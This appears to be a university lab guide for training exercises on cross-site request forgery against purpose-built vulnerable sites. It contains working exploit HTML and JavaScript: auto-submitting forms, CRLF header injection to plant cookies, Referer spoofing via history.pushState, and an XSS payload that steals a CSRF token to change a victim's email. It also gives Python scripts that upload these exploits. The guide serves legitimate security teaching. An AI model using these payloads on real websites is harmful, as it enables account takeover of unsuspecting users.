





no-defenses
When an adversary tricks a user into visiting a site with malicious content embedded in the page, the victim's browser can be tricked into automatically retrieving the content when rendering the page. In these exercises, an exploit server is loaded with HTML and Javascript for tricking a visitor into submitting a request to a legitimate, but vulnerable web site. The request changes the victim's e-mail address on the vulnerable site. If the user has logged into that site already, the malicious content will cause the user to have his/her account e-mail address changed.
Examine vulnerable site
Visit the site and click on "My account". Login with the credentials you are given (e.g. wiener / peter). Logging in takes you directly to an account page that allows the user to change their e-mail address. Open the Developer Tools. Right-click the link and inspect the HTML element for the "Update email" button:

The button is associated with the form submission code shown below which POSTs any form data to the /my-account/change-email URI path of the site. Fill in an Email address and click on "Update email". In Developer Tools, view the request that is generated to get the URL that changes the e-mail address on the vulnerable site including its request headers and payload.

The request to the vulnerable site (vulnerable-website.com) has the following format:
POST /my-account/change-email HTTP/1.1 Host: vulnerable-website.com Content-Type: application/x-www-form-urlencoded Content-Length: 30 Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE email=wiener@normal-user.com
CSRF exploit
The form does not employ a CSRF token that binds the form submission to a previously issued HTML form, thus making it vulnerable to attack. If the exploit server has the following HTML, then a victim that is logged into the vulnerable site will post the request to change his/her e-mail address to pwned@evil-user.net automatically via Javascript.
<html>
<body>
<form action="https://vulnerable-website.com/my-account/change-email" method="POST">
<input type="hidden" name="email" value="pwned@evil-user.net">
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>Examine exploit site
Visit the exploit server that will be used to host the exploit.

The exploit server allows you to store HTML content at /exploit that the victim will automatically visit. Visit the exploit site and bring up Developer Tools. "Store" the default content (Hello, world!) that is given and view the form submission parameters.

The responseBody of this form submission can contain the HTML exploit previously given. When an appropriate exploit has been developed, storing the exploit here will solve the level.
Solve using Python
We will perform the solution using a Python script to submit the exploit to the exploit server. The snippet below visits the site and pulls out the URL for the exploit server from it.
s = requests.Session()
url = f'https://{site}/'
resp = s.get(url)
soup = BeautifulSoup(resp.text,'html.parser')
exploit_url = soup.find('a', {'id':'exploit-link'}).get('href')Then craft your exploit HTML from the example previously given, replacing the form's action attribute appropriately:
# <FMI> (Fill Me In) denotes a value you will need to modify
exploit_html = f'''<html>
. . .
<form action="<FMI>" method="POST">
<input type="hidden" name="email" value="pwned@evil-user.net">
. . .
</html>'''We can now upload and store the exploit. Based on the inspection of the form submission request, fill in the appropriate formData below and POST it to the exploit server to store the HTML exploit and solve the level.
formData = {
'urlIsHttps': 'on',
'responseFile': '/exploit',
'responseHead': 'HTTP/1.1 200 OK\nContent-Type: text/html; charset=utf-8',
'responseBody': exploit_html,
'<FMI>': '<FMI>'
}
resp = s.post(exploit_url, data=formData)- Take a screenshot showing completion of the level that includes the level URL and your OdinId
token-validation-depends-on-request-method
Visit the site and click "My account" to log in using the given credentials (wiener:peter). Then, using the prior level's Python script, upload the prior level's exploit to the exploit server. After storing the exploit, visit the exploit server in a web browser and click on "View exploit".
- Take a screenshot of the result showing that the exploit has failed
When attempting to prevent CSRF attacks, one must ensure all routes and all HTTP methods used on those routes are protected with CSRF tokens. In this case, POST requests are protected, causing our prior exploit to fail. Change the form submission method from a POST to a GET and re-run the script to upload the exploit. As the results should indicate, using a GET method on the change-email request bypasses the CSRF protection and solves the level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
token-not-tied-to-user-session
It is important that CSRF tokens are bound to the session of the authenticated user they are given to. If an adversary has an account on the vulnerable site and obtains a CSRF token, that token should not be usable if submitted by a different user. In this level, the change email functionality is protected by a CSRF token as shown below:

We can attempt to exploit a victim by first obtaining a CSRF token for ourselves as performed in the Python code below:
change_url = f'https://{site}/my-account'
resp = s.get(change_url)
soup = BeautifulSoup(resp.text,'html.parser')
csrf = soup.find('input', {'name':'csrf'}).get('value')Then, in the exploit HTML, we can insert the token in hopes that it will work for the victim that visits the exploit site.
exploit_html = f'''<html>
. . .
<form . . .>
. . .
<input type="hidden" name="email" value="pwned@evil-user.net">
<input type="hidden" name="csrf" value="{csrf}">
. . .
</form>
</html>'''In this level, as any valid CSRF token will be accepted by the vulnerable site, uploading the exploit above will solve the level. Modify the script from the previous levels to extract the CSRF token, upload the exploit_html to the exploit site, and solve the level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
token-duplicated-in-cookie
The site in this lab contains two vulnerabilities that can be chained together to exploit a victim via cross-site request forgery.
Header injection vulnerability
The first vulnerability is a header injection attack similar to XSS. In XSS, input that a client has provided is sent back within the HTML of a subsequent response. The header injection vulnerability is similar, but the input is reflected back in the HTTP headers of a subsequent response. Begin by visiting the site and bringing up Developer Tools. Submit a search using your OdinId as a search term. Click on the "Network" tab and then on the request. Finally, click on "Headers" for the request and expand the "Response Headers".
- Take a screenshot of the entire HTTP response header that includes your OdinId
Whenever user input is reflected back into header fields of an HTTP response, one must ensure that the newline characters (\n or its URL-encoded format %0d%0a) are escaped. Since HTTP response headers are separated by a newline, blindly allowing user input to be included can allow someone to inject a bogus header field.
Consider the Python function below that performs the search above programmatically and prints the contents of the returning HTTP response headers:
def getHeadersFromSearch(search_term):
resp = requests.get(f"https://{site}/?search={search_term}")
for header in resp.headers.items():
print(header)Run the function using your OdinId as a search term to see that it returns a similar response.
getHeadersFromSearch("<FMI>")- How many cookies are returned? What are their names?
Then, run it with a newline after your OdinId:
getHeadersFromSearch("<FMI>\nfoo: bar")- How have
fooandbarbeen interpreted?
Finally, run it with a newline after your OdinId and attempt to include a header that sets a cookie in the response.
getHeadersFromSearch("wuchang\nSet-Cookie: foo=bar")- How many cookies have been returned?
The implications of this vulnerability is that an adversary can now tamper with the cookies on a client by tricking the client into performing a malicious search on the vulnerable site.
Cookie vulnerability
The second vulnerability is that the server stores the client's CSRF token in a cookie and trusts that the client will not tamper with it. To see how cookies are handled in this application, examine the Python code below that visits the login page, parses out the CSRF token in both the HTML being returned as well as the 'Set-Cookie:' HTTP response header.
s = requests.Session()
login_url = f'https://{site}/login'
resp = s.get(login_url)
soup = BeautifulSoup(resp.text,'html.parser')
csrf = soup.find('input', {'name':'csrf'}).get('value')
print(f' csrf field in form field: {csrf}')
for header in resp.headers.items():
print(header)Then, examine the session's cookie jar to see the cookie containing the CSRF token.
for cookie in s.cookies.items():
print(cookie)Finally, delete the cookies from the session and attempt to login to the site with the credentials given and with the prior CSRF token included in the form submission, but without the associated cookie containing the CSRF token.
s.cookies.clear()
logindata = {
'csrf' : csrf,
'username' : 'wiener',
'password' : 'peter'
}
resp = s.post(login_url, data=logindata)
print(f"HTTP status code {resp.status_code} with text {resp.text}")- Explain the results. Give one reason why a developer would choose to implement CSRF protection in this manner
If the web application validates a submission by ensuring that the cookie's CSRF token matches the csrf field in the form submission, it must make sure that such a token can not be forged. To test whether this is the case, in the Python code below, fill in your OdinId for the CSRF token in both the cookie and the form submission fields. Then run the code.
logindata = {
'csrf' : '<FMI>',
'username' : 'wiener',
'password' : 'peter'
}
cookiedata = {
'csrf' : '<FMI>'
}
resp = requests.post(login_url, data=logindata, cookies=cookiedata)
print(f"HTTP status code {resp.status_code}")
soup = BeautifulSoup(resp.text,'html.parser')
csrf = soup.find('input', {'name':'csrf'}).get('value')
print(f"CSRF token in HTML response is {csrf}")- What status code is returned? What is the value of the
csrffield in the HTML form that is given back as a response?
Keyed hash functions, where the key is kept secret, are one way to ensure that the token can not be fabricated.
- How might a developer use a keyed hash function on the server to prevent this request from succeeding without being forced to store each token?
Developing an initial exploit
We can now develop an exploit that combines the two vulnerabilities together. As in prior levels, an exploit server is given to us that hosts content that an authenticated victim will periodically access. We first craft a search URL that will be hosted on the exploit server for the victim to request. While URLs sent via Python's requests package are automatically URL-encoded, we are embedding this link in the HTML page and must URL-encode it ourselves. The urllib.parse.quote_plus() function will perform the appropriate encoding. In this case, the URL will set the CSRF cookie to 'foo'. Note that we will also want to set the SameSite attribute for the CSRF cookie to "None" to trick the browser into allowing cookies to be sent from the exploit server to the level web site.
import urllib
search_term = urllib.parse.quote("wuchang\nSet-Cookie: csrf=foo; SameSite=None")
search_url = f'https://{site}/?search={search_term}'
print(f'URL to embed ({search_url})')With this, we can now craft the page to perform the search and cause the victim to login using the initial account we have been given. Consider the HTML below. It recreates the login form with the CSRF token 'foo' and presets the username and password fields to the credentials given for the level. It then creates a single <img> element and points its src attribute to the search URL. The victim automatically fetches this URL setting the CSRF cookie to foo. Since the URL does not contain an image to render, the browser will immediately generate an error. By pointing the onerror event attribute to Javascript code that submits the login form, we then cause the victim to automatically login.
exploit_html = f'''
<form action="{login_url}" method="POST">
<input type="hidden" name="username" value="wiener">
<input type="hidden" name="password" value="peter">
<input type="hidden" name="csrf" value="foo">
</form>
<img src="{search_url}" onerror="document.forms[0].submit();">
'''Using the script from the initial level, store this page on the exploit server. Then, without logging in to the vulnerable site, visit the exploit server and "View exploit". The page should initially render a broken image before redirecting you to another page.
- Take a screenshot of the page that you are sent to for your lab notebook
Exploit level
In this level, a victim has already authenticated to the vulnerable site. Without knowing the victim's credentials, our goal is to trick the victim into changing their e-mail address. The victim will visit the exploit server periodically to render whatever content that is placed there. We can modify our initial exploit to trick the victim into sending a request to change their e-mail address instead. As shown in the HTML below, the form to submit an e-mail change is implemented with the CSRF field set to foo. Use it to solve the level.
exploit_html = f'''
<form action="{change_email_url}" method="POST">
<input type="hidden" name="email" value="pwned@evil-user.net">
<input type="hidden" name="csrf" value="foo">
</form>
<img src="{search_url}"
onerror="document.forms[0].submit();">
'''Note, if you have uploaded and demonstrated a working exploit and the level does not accept the solution, it may need to be reset.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
referer-validation-broken
In this level, the site protects against CSRF attacks by attempting to identify the source page in which the login attempt originates. As with previous levels, the login form is hosted at https://{site}/login which is also the URL that the login credentials are sent via POST when the form is submitted. The HTTP Referer: request header attaches the page that the client is on when it sends the POST request.
Validation logic
Begin by bringing up the login page for the site. Inspect the form in Developer Tools and see that it does not contain a CSRF field. With the console still up, login using the credentials given in the lab (wiener:peter). Then, navigate to the "Network" tab, find the POST request, and expand out its HTTP request headers. Make a note of the Referer: header that is attached.

Then, attempt to login via a Python script. Because the request is done via the program, the Referer: header is not set.
login_url = f'https://{site}/login'
logindata = {
'username' : 'wiener',
'password' : 'peter'
}
resp = requests.post(login_url, data=logindata)
print(f'HTTP status code: {resp.status_code} with response text {resp.text}')- What status code and response text is returned?
We can set the HTTP request headers for our Python script by sending in a dictionary specifying the headers to include and their values. This is sent in the headers keyword argument as shown below for the Referer: header. Modify the code to include the URL found previously in the Referer: field.
resp = requests.post(login_url, data=logindata, headers={'referer' : '<FMI>'})- What status code is returned?
Exploit level
With the Referer: request header being the only mechanism that is in place to prevent CSRF attacks, an adversary only needs to tamper with the victim's headers to perform the exploit. As in prior levels, an exploit server is given that the client visits periodically. Begin by modifying the HTML below for your level and storing it on the exploit server.
exploit_html = f'''<html>
<body>
<form action="https://{site}/my-account/change-email" method="POST">
<input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>'''Visit the site and login using the credentials given (wiener:peter). Then, visit exploit server and click on "View exploit".
- Take a screenshot of the page that is returned including its URL
In Javascript, one can modify the browser's history programmatically. The code below appends a search term onto the URL of the browser's current page and sets it to the URL of the page that changes an account's email address. This may be sufficient to trick the server into allowing the request. Modify the Javascript to point to your site's change email URL and then add the code to the script in exploit_html.
history.pushState("", "", "/?{referer_url}")It turns out that modern browsers strip this query string from the Referer: header by default as a security measure. To override this behavior, the exploit server must be configured to instruct browsers to allow query strings to be sent in the field. For the exploit server, this is done by adding the Referrer-Policy: unsafe-url field to the exploit server's HEAD response. This is done by modifying the form submission when uploading the exploit.
formData = {
'urlIsHttps': 'on',
'responseFile': '/exploit',
'responseHead': 'HTTP/1.1 200 OK\nContent-Type: text/html; charset=utf-8\nReferrer-Policy: unsafe-url',
'responseBody': exploit_html,
'formAction': 'STORE'
}
resp = s.post(exploit_url, data=formData)- Take a screenshot showing completion of the level that includes the level URL and your OdinId
perform-csrf
To protect against CSRF attacks, requests are bound with a unique token. This makes it difficult for an adversary to perform the attack unless more access or control over the authenticated victim browser is obtained. Such access and control, however, is enabled when the vulnerable site contains an XSS vulnerability. By allowing the adversary to execute arbitrary Javascript on the victim, the adversary can trick the victim to perform two requests, one to retrieve the CSRF token and another to perform the exploit.
Visit the site and see that it supports commenting on blog posts (as seen in the XSS levels) as well as login functionality as seen before. The goal of this level is to deliver an XSS attack that tricks the victim into changing their e-mail address automatically. Consider the Javascript below if it were delivered to a victim. The script creates an AJAX request and registers a function (handleResponse) that should be called upon loading the request. It then retrieves the /my-account page.
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
// Code to execute after request loads
};
</script>Once the request finishes loading, the handleResponse() function is called. The function searches for the csrf token embedded in the response HTML and parses it out using a regular expression. It then creates a second AJAX request to POST a change-email request that includes the token and the address we want the victim's account to be changed to.
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/my-account/change-email', true);
changeReq.send('csrf='+token+'&email=test@test.com')
};Post the script as a comment to the blog. A victim browser is programmed to access the blog posts periodically which will trigger an address change automatically and solve the level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId